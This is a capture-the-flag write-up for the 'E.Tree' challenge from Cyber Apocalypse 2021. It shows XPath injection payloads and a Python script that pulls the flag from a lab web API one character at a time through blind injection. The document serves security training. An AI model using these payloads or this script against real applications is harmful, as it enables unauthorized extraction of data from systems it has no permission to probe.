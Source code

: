 # E.Tree - Cyber Apocalypse 2021
### Challenge Info
After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?
### Given Material
We have been provided with a military.xml file (included in this write-ups repo). After looking around the web app we can assume that the xml file represents the database schema used for looking up the platforms data.
### Identifying the flaw
After submitting and inspecting some dummy requests from the web app form we see that an http POST request is being made in the following form:

```JSON
{"POST":{"scheme":"http","host":"138.68.148.149:31767","filename":"/api/search","remote":{"Address":"138.68.148.149:31767"}}}
```

Using the following python script we can quickly modify and send multiple payloads and see how the api behaves.
```python
import requests as r
url = 'http://138.68.148.149:31767/api/search'
payload = {"search":"'"}
response = r.post(url,json=payload)
print(response.content)
```
It seems that when we submit a singe-quote character, an "lxml.etree.XPathEvalError" error is triggered on a wsgi debugger revealing some of the source code. The part of the source code we need to keep is the following:

```python
@app.route("/api/search", methods=["POST"])
def search():
    name = request.json.get("search", "")
    query = "/military/district/staff[name=\'{}\']".format(name)
    if tree.xpath(query):
        return {"success": 1, "message": "This millitary staff member exists."}
    return {"failure": 1, "message": "This millitary staff member doesn\'t exist."}

app.run("0.0.0.0", port=1337, debug=True)
```

We can now confirm that we have an XPath Injection. After inspecting the query variable it seems that we can inject almost custom input directly in the tree.xpath function. For example the single-quote we used earlier broke the formating resulting in the following query:
```python
"/military/district/staff[name=''']"
```

### Controlling the query
Now it's time to test some payloads. We can confirm we are modifying the queries with the following payloads:

-Using:
```python
payload = {"search":"dummy' or 1 = 2 or '"}
```
We get the following response:
```JSON
{"failure": 1,"message": "This millitary staff member doesn't exist."}
```
-Using:
```python
payload = {"search":"dummy' or 1 = 1 or '"}
```
We get the following response:
```JSON
{"message": "This millitary staff member exists.","success": 1}
```
Since we can only receive positive or negative responses we are going to handle this as a Blind Xpath Injection.

### Retrieving the flag
Upon inspecting the given xml database schema we see that the flag is split on two parts on the 'selfDestructCode' fields:
```html
<selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
```
```html
<selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
```
Using a payload in the form of:
```python
payload = {"search": f"dummy' or //selfDestructCode[starts-with(.,'{FLAG_PREFIX}')] or '"}
```
We can lookup any strings on any selfDestructCode fields on the whole document starting with FLAG_PREFIX. For a better reference on how the this Xpath query works we suggest the following resource: [Use the starts-with() XPath Function](https://docs.microsoft.com/en-us/previous-versions/troubleshoot/msxml/use-starts-with-xpath-function) 

Now it's just a matter of scripting. Launching the following script can give us the flag:
```python
import requests as r
import string

url = 'http://138.68.148.149:31767/api/search'

all_chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$-%&_{\}'

def blindLxmlInjection(prefix):
    flag = prefix
    i = 0
    while i < len(all_chars):
        test = flag + all_chars[i]
        payload = {"search": f"dummy' or //selfDestructCode[starts-with(.,'{test}')] or '"}
        response = r.post(url,json=payload)
        i += 1
        if "success" in str(response.content):
            flag = test
            i = 0 
            print(flag)

blindLxmlInjection('CHTB{')
blindLxmlInjection('')

```

Soon we are greeted with the two parts of the flag, connect them and get:
```
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```

Happy Hacking :)


